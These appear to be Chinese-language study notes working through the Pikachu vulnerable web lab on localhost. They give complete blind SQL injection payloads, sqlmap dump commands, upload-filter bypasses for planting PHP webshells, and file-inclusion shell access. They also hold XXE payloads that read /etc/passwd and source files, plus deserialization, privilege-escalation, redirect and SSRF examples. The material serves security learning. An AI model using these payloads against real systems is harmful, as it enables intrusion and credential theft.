
再次发送，发现可以了



## 布尔盲注
- 当显示的数据有限、报错也不回显时，使用布尔盲注，通过布尔值的不同回显结果进行判断

服务器不打印报错，且只允许查询返回一行数据，否则什么都不显示
- 所以无法进行报错注入和联合查询

- 单引号闭合；由于只能显示一行，使用 AND 布尔判断：正确则显示该行，否则显示其他内容
- 仍然是从数据库一直到列内容
1. 爆数据库名长度 `kobe' and length(database())=7 #`
2. 爆数据库名的每个字符 `kobe' and ascii(substr(database(),1,1))=222 #`
3. 爆表名长度 `kobe' and length((select table_name from information_schema.tables where table_schema=database() limit 3,1))=5 #`
4. 爆表名的每个字符 `kobe' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),1,1))=222 #`
5. 爆列名长度 `kobe' and length(((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1)))=8 #`
6. 爆列名的每个字符 `kobe' and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1),1,1))=222 #`
7. 爆某列某行内容的长度 `kobe' and length((select username from users limit 0,1))=5 #`
8. 爆某列某行内容的每个字符 `kobe' and ascii(substr((select username from users limit 0,1),1,1))=222 #`

或者直接用 sqlmap
- `sudo apt install sqlmap` 下载 sqlmap
- 爆数据库 `sqlmap -u "http://127.0.0.1/vul/sqli/sqli_blind_b.php?name=kobe&submit=%E6%9F%A5%E8%AF%A2" --current-db`


- 爆表 `sqlmap -u "http://127.0.0.1/vul/sqli/sqli_blind_b.php?name=kobe&submit=%E6%9F%A5%E8%AF%A2" -D pikachu --tables`

 
 - 爆列 `sqlmap -u "http://127.0.0.1/vul/sqli/sqli_blind_b.php?name=kobe&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users --columns`
 
- 爆列内容 `sqlmap -u "http://127.0.0.1/vul/sqli/sqli_blind_b.php?name=kobe&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users -C "username,password" --dump `



## 时间盲注
- 没有差异化的回显信息（没有回显信息），且只能显示一行所以无法联合查询；利用布尔值得到不同时长的反应来爆破信息

- `kobe' and sleep(10)#` 判断是否为单引号闭合：如果是单引号闭合，响应会耗时 10 秒
1. 爆数据库长度 `kobe' and if(length(database())=7,sleep(2),1)#`
2. 爆数据库名的每个字符 `kobe' or if(ascii(substr(database(),2,1))=1122,sleep(2),1)#`
3. 爆表名长度 `kobe' or if(length((select table_name from information_schema.tables where table_schema=database() limit 1,1))>1,sleep(1),1)#`
4. 爆表名的每个字符 `kobe' or if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=1111,sleep(2),1)# `
5. 爆列名长度 `kobe' or if(length((select column_name from information_schema.columns where table_schema=database() and table_name=users  limit 0,1))>1,sleep(2),1) #`
6. 爆列名内容 `kobe' or if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=users limit 0,1),1,1))=111,sleep(2),1)#`
7. 爆某列某行的长度 `kobe' and if(length((select username from users limit 0,1))=5,sleep(3),1) #`
8. 爆某列某行的内容 ``kobe' and if (ascii(substr((select username from users limit 0,1),1,1))=222,sleep(3),1 )#``

- 也可以用 sqlmap，步骤与布尔盲注的 sqlmap 流程差不多
## 宽字节注入
- 加了转义字符
- 字节解析方式的不同，使得加了转义字符后的字节被解析成其他内容

服务器端处理时先调用了 escape


 宽字节处理

`%df` 在百分号编码（也叫 URL 编码）中表示一个特定的字节。在这个语境下，`%df` 解码后是十六进制值为 `df` 的字节，即十进制的 223。在不同的字符编码标准中，这个字节代表不同的字符：

- 在 ASCII 编码中，这个值没有直接对应的可打印字符。
- 在 UTF-8 编码中，`%df` 单独不构成有效字符，因为 UTF-8 是变长编码，多字节字符的每个字节都有特定范围，多字节字符的首字节和后续字节都有特定的位模式。如果它是 UTF-8 编码宽字符的一部分，那么 `%df` 可能是两字节或更长字符的第二个字节。
- 在 GB2312 或 GBK 等中文编码中，`%df` 通常与下一个字节组合表示一个汉字。例如 `%df%bb` 在 GBK 编码中表示汉字“易”。（这里利用的就是 %df 与转义时加入的字节一起在 GBK 中被解码成一个汉字）

提到 `%df` 时，在 Web 开发和网络传输中，百分号编码用于把非字母数字字符转换为可安全传输的格式，接收端再把它们解码还原。

执行成功，说明开启了转义，且闭合方式是单引号

然后就是常规的爆库操作……


# RCE（远程命令/代码执行）
- 客户端向服务器传输某个值
- 服务器把收到的值拼接到命令或要执行的代码中
- 如果服务器没有妥善处理从客户端获得的值，攻击者就可以在服务器上执行自己想要的命令

##  exec "ping"


## exec "eval"
eval() 的作用是把字符串当作代码执行。也就是说，它接收一个字符串参数，其内容可以是一段代码，eval() 会像这段代码直接写在程序中一样解析并执行它。

输入 phpinfo();

# unsafe filedownload（文件下载漏洞）
- 用户请求中包含与要下载文件相关的参数
- 服务器没有妥善处理这个参数，导致一些意料之外的文件被下载


用户点击链接后得到的完整 URL 取决于当前页面的 URL 路径。假设当前页面 URL 是 `http://www.example.com/index.html`，那么点击链接 `<a href="execdownload.php?filename=ai.png">阿伦.艾弗森</a>` 后，浏览器将跳转到的完整 URL 是：

```
http://www.example.com/execdownload.php?filename=ai.png
```

其中，`http://www.example.com/` 是当前页面的域名部分，`execdownload.php` 是链接中指定的文件路径，`?filename=ai.png` 是查询字符串，用于把文件名参数传给服务器处理。

如果当前页面 URL 不是以 `.html` 结尾，例如是一个目录或不同的子路径，那么点击链接后的完整 URL 会相应调整，以保持相对路径正确。例如当前页面 URL 是 `http://www.example.com/sports/nba/`，点击同一个链接后的完整 URL 将是：

```
http://www.example.com/sports/nba/execdownload.php?filename=ai.png
```

简而言之，完整 URL 就是当前页面的 URL 结合链接中指定的相对路径再加上查询字符串。

页面上存在的各个链接

响应的处理逻辑


客户端收到的响应


1. **解析响应状态行**：
   - `HTTP/1.1 200 OK` 表示请求成功，浏览器得知服务器已成功处理该请求。

2. **解析响应头**：
   - **Date**：提供响应的时间戳，供浏览器参考。
   - **Server**：服务器使用的软件及版本信息，这里是运行在 Ubuntu 上的 Apache 2.4.29。
   - **Accept-Ranges: bytes**：告诉浏览器支持范围请求，即可以部分下载文件。
   - **Content-Disposition**：表示这是一个应被下载而不是在浏览器中显示的文件，并给出文件名 `ai.png`。
   - **Connection: close**：告诉浏览器在响应结束后关闭 TCP 连接，而不是保持连接供后续请求复用。
   - **Content-Type**：指定内容类型为 `application/octet-stream`，表示这是二进制数据流，通常用于文件下载。
   - **Content-Length**：给出响应体的大小，这里是 28747 字节，帮助浏览器校验下载的完整性。

3. **处理响应体**：
   - 响应头之后的换行（连续两个回车换行 `\r\n\r\n`）标志着响应头结束，紧接着就是响应体数据。
   - 数据以 PNG 文件的二进制格式开头（`PNG` 及后面的字节是 PNG 文件签名），浏览器识别出这些数据属于一个 PNG 图片文件。

4. **下载或显示逻辑**：
   - 由于 `Content-Disposition` 设置为 `attachment`，浏览器不会尝试在页面中显示图片，而是会：
     - 弹出“另存为”对话框让用户选择保存位置，文件名默认为 `ai.png`。
     - 开始接收响应体数据，逐步把二进制流写入用户指定的文件。
     - 下载完成后，通知用户下载已完成，文件已保存到指定位置。

综上，浏览器根据响应头中的指示和收到的数据，识别出这是要下载的文件内容，据此引导用户完成下载操作，最终把收到的二进制数据保存为一个 PNG 图片文件。

当为 `../execdownload.php` 时，就能下载到源码

#  unsafe upfileupload（文件上传漏洞）
- 客户端向服务器上传文件
- 服务器把文件保存在服务器端（服务器没有严格处理上传的文件，导致恶意文件被上传）


## 客户端检查
存在前端限制，抓包修改即可绕过
- 把木马 php 文件的扩展名改为 jpg
- 通过前端限制后抓包
- 在 Burp Suite 中把扩展名改回 php

服务器端处理


在 PHP 中，`$_FILES` 是一个预定义的全局数组，用于存放通过 HTTP POST 请求上传的文件信息。用户通过表单上传文件时，PHP 会自动填充这个数组，方便开发者访问上传文件的详细信息。

关于数组元素结构 `$_FILES[$key]`，这里的 `$key` 对应表单中文件输入字段的 `name` 属性值。例如，如果 HTML 表单的文件上传部分如下：

```html
<input type="file" name="uploadfile">
```

那么在 PHP 中就可以通过 `$_FILES['uploadfile']` 访问这个上传文件的相关信息。

`$_FILES[$key]['tmp_name']` 的解释：

- 这个键包含上传文件在服务器上的临时存储路径。文件上传时，PHP 会先把它存放在一个临时目录中，直到你的脚本决定如何处理这个文件（例如移动到永久位置或删除）。这个临时文件的名字由 PHP 生成，通常不需要关心它具体是什么，但需要用这个临时文件名来执行文件移动操作。

`$save_path.$_FILES[$key]['name']` 的解释：

- 这是为目标文件构造一个完整的保存路径。`$save_path` 是想要保存文件的目录路径，`$_FILES[$key]['name']` 是上传文件的原始名称。通过字符串连接运算符 `.`，这两部分被合并成一个完整路径。例如，如果 `$save_path` 是 `/var/www/uploads/`，上传的文件名为 `example.txt`，那么最终路径就是 `/var/www/uploads/example.txt`。`move_uploaded_file` 函数用这个路径把上传的临时文件移动到这个指定的永久位置。

文件内容及相关信息以 POST 形式提交到服务器


## 服务端 MIME 检查
没有前端检查，但后端会检查类型


修改 `content-type` 即可


## getimagesize()
没有前端检查，只有服务器端处理


`$_FILES[$key]['tmp_name']` 是 PHP 中用于访问通过 HTTP POST 方法上传的文件的临时存储位置的变量。用户上传文件时，PHP 会把文件临时存放在服务器的临时目录中，并通过 `$_FILES` 超全局数组提供详细的文件上传信息。这个数组是多维结构，每个上传的文件对应数组中的一个元素，以表单中文件输入字段的 `name` 属性值为索引。

具体来说，`$_FILES` 数组的结构大致如下：

```php
$_FILES = [
    'fieldname' => [
        'name'      => '用户计算机上的文件名',
        'type'      => '文件的MIME类型',
        'tmp_name'   => '文件在服务器上的临时副本的路径',
        'error'     => '上传错误代码',
        'size'      => '上传文件的大小（字节）'
    ],
    // 可能还有更多文件，取决于上传了多少个
];
```

其中，`$key` 是表单中文件上传字段的 `name` 属性值。例如，如果 HTML 中的文件上传字段是这样定义的：

```html
<input type="file" name="uploadFile">
```

那么在 PHP 中，应使用 `'uploadFile'` 作为 `$key` 来访问上传文件的信息：

```php
$_FILES['uploadFile']['tmp_name']
```

`$_FILES[$key]['tmp_name']` 的值是上传文件在服务器上存放的临时路径。这个路径对用户不可见，脚本执行结束后（或脚本执行超时时）这个临时文件会被自动删除，除非你在脚本中通过 `move_uploaded_file()` 函数或其他方式显式地把它移到别处。因此，如果想保留上传的文件，需要在脚本中用 `move_uploaded_file()` 函数把它从临时位置移动到持久存储位置。


- getimagesize() 函数通过分析文件的头部信息来判断文件是否为有效的图片文件
- 在文件内容开头加上 GIF89a（GIF 图片文件头）


# File Inclusion（文件包含漏洞）
### include()

- **功能**：`include()` 用于在指定位置包含指定文件的内容。如果被包含的文件不存在或路径错误，`include()` 会产生一个警告（E_WARNING），但脚本会继续执行。


### include_once()

- **功能**：与 `include()` 类似，但特点是文件只会被包含一次。如果文件已经被包含过，就不会再次包含，这有助于避免重复定义函数或类导致的错误。


### require()

- **功能**：`require()` 在功能上与 `include()` 类似，但错误处理方式不同。如果 `require()` 失败（文件未找到或不可读），会产生致命错误（E_COMPILE_ERROR），导致脚本停止执行。

### require_once()

- **功能**：结合了 `require()` 和 `include_once()` 的特点，确保文件只被包含一次，并且如果文件不存在或不可读，会导致致命错误，终止脚本执行。


## 本地文件包含
从服务器的角度看，包含的是服务器本地的文件

- 上传一个木马文件，木马文件存在于服务器本地
- 服务器包含这个本地木马文件
- 用 getshell 工具连接


- 用相对路径指向之前上传的木马文件，再用蚁剑 getshell


## 远程文件包含


- 包含一个 URL：PHP 会尝试通过网络获取 URL 指向的文件内容，并当作 PHP 代码处理


修改 php.ini，打开 `·allow_url_include`

由于这个靶场是以容器方式运行的，需要先进入命令行再修改

- 启动容器后，`docker exec -it e026b29813e8 /bin/bash` 进入容器的命令行
- 然后 `php -v` 查看当前版本
- 确认版本后，`vim /etc/php/7.3/apache2/php.ini`
- 按 / 再输入要搜索的字符，回车跳转过去，然后改为 On


用 `http://127.0.0.1/vul/fileinclude/fi_remote.php?filename=http://127.0.0.1/vul/unsafeupload/uploads/shell.php&submit=Submit+Query` 配合蚁剑 getshell 时会报错。这是因为蚁剑是用 POST 请求 URL 的，而我们填的是 GET 型的 URL；即使尝试向这个地址发送 POST 请求，Web 服务器通常也会忽略 URL 中的查询字符串（?filename=... 之后的部分），所以包含失败

但如果直接访问这个 URL，它仍然能正常包含文件
- 所以这里通过访问 URL 来执行文件，从而创建一个新的木马文件


- 然后用蚁剑 getshell


#  over permission（越权）
- 用 A 用户的权限去操作 B 用户的数据，A 的权限不足以做 B 的权限才能做的事
-  客户端执行某个操作
- 服务器检查执行操作的用户是否有相应权限，并做不同的处理


## 水平越权
- 水平越权：A 用户和 B 用户是同级别的用户，但彼此不能操作对方的个人信息。如果 A 用户能越权操作 B 用户的个人信息，就称为“水平越权”

这里的连接都是一样的，不会因用户不同而不同。
但 SQL 语句直接用从 URL 获取的用户名来执行，所以修改 URL 中的用户名就能得到对应用户的个人信息


## 垂直越权
- 垂直越权：A 用户的权限高于 B 用户，B 用户能执行 A 用户的操作的情况称为“垂直越权”

登录后，服务器代码会往 `$_SESSION` 中添加相关设置

退出登录后，`$_SESSION` 会被删除


添加用户的代码会检查用户是否已登录

但登录检查只检查该用户是否存在，并不检查该用户的 `$_SESSION` 是否与当前权限级别相符

- 可以抓取添加用户的数据包，而此时不会校验用户 `$_SESSION` 的级别，即任何其他已登录用户的 `$_SESSION` 也都可以
- 这里 admin 退出登录后，用 pikachu 登录，再把添加用户数据包的 PHPSESSION 替换为 pikachu 的 PHPSESSION
- 这里页面显示登录页的原因是添加后会跳转到 op2_admin.php，然后又跳转到 op2_login.php


# 目录遍历漏洞
- 客户端向服务器提交要访问的文件名
- 服务器没有妥善处理，导致可以访问其他本不应访问的文件

服务器端处理

`require` 用于把一个源代码文件的内容插入另一个源代码文件中
用 `title=../dir.php` 可以看到 dir.php 的内容被执行并显示在前端

# 敏感信息泄露
- 用户访问服务器，服务器没有妥善处理，导致可以访问其他资源
- 源代码中存在相关信息泄露


登录账号和密码泄露了，直接登录即可

#  PHP 反序列化
 **序列化 serialize()**
序列化通俗来说就是把一个对象变成可以传输的字符串。例如，下面是一个对象：

    class S{
        public $test="pikachu";
    }
    $s=new S(); //创建一个对象
    serialize($s); //把这个对象进行序列化
    序列化后得到的结果是这个样子的:O:1:"S":1:{s:4:"test";s:7:"pikachu";}
        O:代表object
        1:代表类名字长度为一个字符
        S:类的名称
        1:代表对象里面有一个变量
        s:数据类型
        4:变量名称的长度
        test:变量名称
        s:数据类型
        7:变量值的长度
        pikachu:变量值
    
通常，序列化过程主要关注对象的状态（即成员变量），而不是其行为（即方法）。这意味着序列化后的信息通常不包含对象的函数定义本身。

**反序列化 unserialize()**

就是把序列化后的字符串还原为对象，然后在接下来的代码中继续使用。

    $u=unserialize("O:1:"S":1:{s:4:"test";s:7:"pikachu";}");
    echo $u->test; //得到的结果为pikachu
    

序列化和反序列化本身没有问题，但如果反序列化的内容是用户可控的，且后台不正确地使用了 PHP 中的魔法函数，就会导致安全问题

        常见的几个魔法函数:
        __construct()当一个对象创建时被调用

        __destruct()当一个对象销毁时被调用

        __toString()当一个对象被当作一个字符串使用

        __sleep() 在对象在被序列化之前运行

        __wakeup将在序列化之后立即被调用

        漏洞举例:

        class S{
            var $test = "pikachu";
            function __destruct(){
                echo $this->test;
            }
        }
        $s = $_GET['test'];
        @$unser = unserialize($a);

        payload:O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}

    

自己创建一个 PHP 文件来生成用于利用的字符串：`O:1:"S":1:{s:4:"test";s:33:"<script>alert('Hacking')</script>";}`

# XXE（XML 外部实体注入）
[https://www.cnblogs.com/joker-vip/p/12355165.html](https://www.cnblogs.com/joker-vip/p/12355165.html)
XML 在数据交换中的应用：

假设有一家网上书店，需要定期把图书库存信息同步给合作伙伴——一家数据分析公司，用于市场趋势分析和预测。在这个场景下，XML 可以作为双方系统之间传输数据的中间数据格式。

**步骤如下：**

1. **数据准备**：网上书店的数据库中存有所有图书的详细信息，包括书名、作者、ISBN、类别、库存数量、价格等。

2. **生成 XML 文件**：书店的后台系统编写一个脚本或程序，从数据库中提取这些信息并转换为 XML 格式。下面是一个简化的 XML 示例，展示了两本书的信息：

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <inventory>
        <book>
            <title>哈利·波特与魔法石</title>
            <author>J.K.罗琳</author>
            <isbn>978-7-5399-3665-1</isbn>
            <category>Fantasy</category>
            <quantity>25</quantity>
            <price>59.99</price>
        </book>
        <book>
            <title>百年孤独</title>
            <author>加西亚·马尔克斯</author>
            <isbn>978-7-5442-4560-3</isbn>
            <category>Literary Fiction</category>
            <quantity>100</quantity>
            <price>39.99</price>
        </book>
    </inventory>
    ```

3. **数据传输**：这个 XML 文件可以通过 HTTP POST 请求、FTP 上传、电子邮件附件等方式安全地发送给数据分析公司。

4. **数据解析与分析**：数据分析公司的系统收到 XML 文件后，使用 XML 解析器（如 Python 的 xml.etree.ElementTree 库、Java 的 DOM/SAX 解析器等）解析该文件，把 XML 数据转换为公司系统可以处理的数据结构（如字典、列表、对象等），然后用于进一步的分析和生成报告。

通过这个例子可以看出 XML 作为数据交换格式的灵活性和便利性：它让不同系统之间的数据共享变得标准、高效。此外，由于 XML 是自描述的，接收方即使没有额外的文档，也能通过 XML 标签大致理解数据的结构和含义。


`simplexml_load_string` 函数配合 `LIBXML_NOENT` 标志，用于解析包含实体的 XML 字符串，并操作得到的 SimpleXMLElement 对象。

### 示例 XML 字符串

假设我们有一个包含实体引用的简单 XML 字符串：

```xml
$xmlString = <<<XML
<?xml version="1.0"?>
<books>
    <book title="PHP与MySQL Web开发">
        <author>&lt;first&gt;Luke&lt;/first&gt; &lt;last&gt;Welling&lt;/last&gt;</author>
        <year>2016</year>
    </book>
</books>
XML;
```
在这个例子中，`<author>` 标签内的文本用实体引用 `&lt;` 和 `&gt;` 表示尖括号，防止它们被误认为 XML 标签。

### 用 `simplexml_load_string` 解析

我们用 `simplexml_load_string` 函数解析这个字符串，并用 `LIBXML_NOENT` 参数把实体替换为对应的字符：

```php
$bookData = @simplexml_load_string($xmlString, 'SimpleXMLElement', LIBXML_NOENT);
```

### 操作解析结果

解析成功后，就可以像操作普通 PHP 对象一样遍历和获取 XML 数据：

```php
foreach ($bookData->book as $book) {
    echo "书名: " . (string)$book['title'] . "\n";
    echo "作者: " . str_replace(array('<first>', '</first>', '<last>', '</last>'), '', (string)$book->author) . "\n"; // 简单处理作者名字展示
    echo "出版年份: " . (string)$book->year . "\n";
}
```

### 输出

这段代码会输出以下信息：

```
书名: PHP与MySQL Web开发
作者: Luke Welling
出版年份: 2016
```


在 PHP 中使用 `simplexml_load_string` 或类似的 XML 解析函数时，加上 `LIBXML_NOENT` 标志实际上是指示 `libxml` 解析器启用对外部实体的解析支持。这允许 XML 文档引用外部资源，例如其他文件或 URI 中的数据。但这也可能带来安全风险，尤其是在处理不可信的 XML 输入时，可能导致 XXE（XML 外部实体）攻击。


假设我们有一个包含外部实体声明和引用的 XML 字符串（内容需要访问外部才能得到的实体就是外部实体）：

```xml
$xmlString = <<<XML
<!DOCTYPE test [
    <!ENTITY secret SYSTEM "file:///etc/passwd">
]>
   <content>&secret;</content>

XML;
```

在这个例子中，XML 文档定义了一个外部实体 `&secret;`，指向服务器上的 `/etc/passwd` 文件，这是一个包含系统用户信息的敏感文件。

如果不加 `LIBXML_NOENT`，许多现代 `libxml` 版本默认禁止解析外部实体，从而保护应用免受 XXE 攻击。但如果像下面这样显式设置了 `LIBXML_NOENT`：

```php
$doc = simplexml_load_string($xmlString, 'SimpleXMLElement', LIBXML_NOENT);
```

解析器就会尝试解析外部实体，这意味着如果 XML 来自不可信的来源，就有可能读取服务器上的任意文件，造成严重的安全问题。上面的代码执行后，如果解析成功且外部实体解析没有被其他方式阻止，`$doc->content` 就可能包含 `/etc/passwd` 文件的部分或全部内容。

所以输入

```xml
<!DOCTYPE test [
    <!ENTITY secret SYSTEM "file:///etc/passwd">
]>
   <content>&secret;</content>
```

所以如果能解析外部实体，且外部实体用 SYSTEM 访问外部资源，那么任何外部资源都可以被泄露

```xml
<!DOCTYPE ANY [ 
<!ENTITY f SYSTEM "php://filter/read=convert.base64-encode/resource=xxe.php"> 
]> 
<x>&f;</x>
```


# URL 重定向
- 客户端向服务器发送一段数据
- 服务器处理收到的数据，然后执行与重定向相关的操作


URL 重定向漏洞导致的钓鱼攻击，简单来说，就是攻击者利用用户对知名或可信网站的信任，通过不安全的 URL 重定向功能把用户引导到恶意钓鱼网站。下面用一个具体例子帮助理解这个过程：

**场景假设**：
假设有一家知名的网上银行，域名为 `trustedbank.com`。用户经常访问这个网站进行各种金融操作，对这个域名高度信任。

**攻击过程**：
1. **构造恶意链接**：攻击者创建一个看起来像是 `trustedbank.com` 页面的恶意链接，可能是这样的：`https://trustedbank.com/login?redirect=https://evilphishingsite.com/login`。其中，`redirect` 参数后面跟的是攻击者控制的钓鱼网站地址。

2. **诱导点击**：攻击者通过电子邮件、社交媒体、短信等方式诱骗用户点击这个链接。邮件或消息可能伪装成银行的官方通知，提醒用户需要更新账户信息或确认某笔交易。

3. **利用 URL 重定向漏洞**：用户点击链接后，浏览器先加载 `trustedbank.com/login` 页面。但由于银行网站存在 URL 重定向漏洞，没有正确校验 `redirect` 参数的安全性，就直接把用户重定向到了 `https://evilphishingsite.com/login`。

4. **钓鱼网站**：用户被重定向到一个与 `trustedbank.com` 登录页几乎一模一样的钓鱼网站。由于重定向前地址栏显示的是真实银行的地址，加上用户对银行的信任，用户可能不会立刻意识到自己已经不在安全的环境中了。

5. **窃取信息**：用户在这个伪造的登录页上输入银行账户的用户名和密码，可能还有安全问题答案、验证码等其他敏感信息。一旦提交，这些信息就会直接发送给攻击者。


点击链接后，URL 被处理并重定向


### 对于 "header('Location: https://www.baidu.com/')"：

这个例子提供了完整的 URL，包括协议（https://），浏览器会把它理解为绝对 URL。它明确指定了要重定向到的完整地址，无论当前页面的协议和域名是什么，浏览器都会直接跳转到 "https://www.baidu.com/"。


### 对于 "header('Location: www.baidu.com/')"：

如果不包含协议前缀（如 http:// 或 https://），那么重定向目标 URL 的解析取决于当前页面的协议和上下文。在许多现代浏览器和服务器配置中，这样的 URL 很可能被当作相对于当前页面的路径，或默认使用当前页面的协议。这意味着如果当前页面是通过 HTTPS 访问的，浏览器可能会尝试通过 HTTPS 访问 "www.baidu.com/"，而如果当前页面是 HTTP，则可能尝试用 HTTP，这会导致行为不一致或安全警告，尤其是目标网站强制使用 HTTPS 时。


# SSRF（服务端请求伪造）
[https://blog.csdn.net/angry_program/article/details/104451155](https://blog.csdn.net/angry_program/article/details/104451155)
- 数据流：攻击者发送数据 -----> 服务器接收数据 ----> 服务器访问攻击者发给它的目标地址

PHP 中以下函数使用不当会导致 SSRF：
1. **file_get_contents()**：
   这个函数通常用于读取文件内容，但如果提供的是 URL 而不是本地文件路径，PHP 会尝试向该 URL 发起 HTTP 或 FTP 请求来获取内容。攻击者可以精心构造 URL，让服务器访问内部系统、执行未授权的 API 调用或访问外部恶意服务器，从而导致信息泄露或引发其他安全问题。

2. **fsockopen()**：
   这个函数用于打开一个网络连接，常用于 TCP/IP 通信。它允许直接与任意 IP 地址和端口建立连接、收发数据。如果攻击者能控制传给这个函数的参数，就可以迫使服务器与内部系统或恶意服务器建立连接，执行攻击者想要的请求，例如扫描内网或攻击其他服务。

3. **curl_exec()**：
   cURL 是一个强大的库，用于从各种协议（HTTP、FTP、SMTP 等）的服务器下载数据。`curl_exec()` 函数执行一个 cURL 会话；同样，如果攻击者能操纵请求的 URL 或其他参数，就能诱使服务器向任意地址发送请求，造成 SSRF 漏洞。
## SSRF（curl）
- 后端服务器访问传入的 url 参数
